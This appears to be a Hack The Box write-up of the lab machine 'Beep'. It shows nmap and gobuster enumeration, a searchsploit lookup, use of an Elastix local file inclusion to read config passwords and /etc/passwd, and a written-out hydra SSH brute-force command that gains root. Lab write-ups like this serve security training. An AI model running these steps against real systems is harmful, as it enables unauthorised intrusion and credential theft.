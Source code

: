 
![logo](/logo.png)

# [Beep- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 15 Mar 2017 as the first machine on HTB,Beep created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *ssh
  *Elastix
  *Apache 2.2.3
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/beep 10.10.10.7
```

###### Output 
![](/Linux/Linux-Easy/Beep/Screenshots/namapbeep.png)

```sh
 nmap -sV -sC -oA nmap/beep 10.10.10.7                                      ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 19:39 EAT
Nmap scan report for 10.10.10.7
Host is up (0.32s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP TOP PIPELINING LOGIN-DELAY(0) UIDL EXPIRE(NEVER) RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) STLS AUTH-RESP-CODE USER
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ID IMAP4rev1 SORT=MODSEQ IMAP4 URLAUTHA0001 Completed ACL THREAD=REFERENCES OK X-NETSCAPE CATENATE NO MULTIAPPEND ATOMIC UNSELECT RIGHTS=kxte ANNOTATEMORE LISTEXT NAMESPACE IDLE CONDSTORE STARTTLS LIST-SUBSCRIBED SORT THREAD=ORDEREDSUBJECT LITERAL+ BINARY RENAME MAILBOX-REFERRALS UIDPLUS QUOTA CHILDREN
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2024-08-09T16:43:52+00:00; +3s from scanner time.
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 484.62 seconds

```

looking at the results  we find out that there are 12 ports open and its running an `Apache/2.2.3 (CentOS)`. with a hostname of `beep.localdomain`

port[22]-ssh 
port[25]- smtp
port[80]-http
port[110]-pop3
port[111]-rpcbind
port[143]-imap
port[443]-ssl/http
port[993]-ssl/imap
port[995]-pop3
port[3306]-mysql
port[4445]-upnotifyp
port[1000]-http

now looking for the website in the browser we find that it can not open because of some TLs issue where  Firefox and other browsers changing their min TLS version to a number higher than what the box supports. 

![](/Linux/Linux-Easy/Beep/Screenshots/beeppage.png)

The workaround to this is to edit the `security.tls.version.min` to `1`.
To modify the minimum TLS version in Firefox, follow these steps:
1. Open a new tab in Firefox.Enter `about:config` in the address bar and hit Enter/Return.
2. In the search box located above the list, enter `security.tls.version.min`.
3. Locate the preference with the name `security.tls.version.min` and modify its value to `1`.

![](/Linux/Linux-Easy/Beep/Screenshots/aboutconfig.png)

now when you load the page again you get it working 

![](/Linux/Linux-Easy/Beep/Screenshots/elastic.png)

now after doing so information gathering i now go and intiate a gobuster so that i can be able to enumerate active directories from the website. We run it with `k` flag so as to skip the `tls` verification.

# Exploitation

```sh
gobuster dir -u https://10.10.10.7 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k
```

![](/Linux/Linux-Easy/Beep/Screenshots/gobuster.png)

so we get get some intresting directories we check `admin` but it requires a password and username. images but nothing is of use . `modules` all are empty . `mail` we find that its running `roundcube` in help we find an intresting help screen which clarifies for us more about the system

![](/Linux/Linux-Easy/Beep/Screenshots/help.png)

so when i go and do default password and username it redirects me to `FreePBX` 

![](/Linux/Linux-Easy/Beep/Screenshots/freepbx.png)

so i decide to search from an exploit using the searchsploit to see if i can get some exploit

```sh
searchsplot elastix
```

![](/Linux/Linux-Easy/Beep/Screenshots/elastix.png)

so i see a file inclustion and try to see the exploit so to undrstand what it does. we see that their is an LFI in the `vtigercrm`

![](/Linux/Linux-Easy/Beep/Screenshots/vitigercrm.png)

so when copying the LFI and going to the site we get some html rnder but not in a good format

![](/Linux/Linux-Easy/Beep/Screenshots/lfi.png)

so we decide to view the source so that we can get atleast the good format

![](/Linux/Linux-Easy/Beep/Screenshots/source.png)

so just see the config is showing so credential and let creat a new file and throw every thing that could be a pontential password.
![](/Linux/Linux-Easy/Beep/Screenshots/configpass.png)

it is evident that the machine is vulnerable to password reuse, now let LFI to passwd to get pontential users of the box 

![](/Linux/Linux-Easy/Beep/Screenshots/pottential%20users.png)

now i want to do a bruteforce on the users and the passwords with hydra 

```sh
hydra -L potentialusers.txt -P pass.txt ssh://10.10.10.7 -t 4
```

![](/Linux/Linux-Easy/Beep/Screenshots/bruteforce.png)


Now then what I do i try passwords over the ssh and i get that the password for the root user 


![](/Linux/Linux-Easy/Beep/Screenshots/ssh.png)

from that i navigate to get the user flag 

![](/Linux/Linux-Easy/Beep/Screenshots/userflag.png)
from that i navigate to get the root flag 

![](/Linux/Linux-Easy/Beep/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------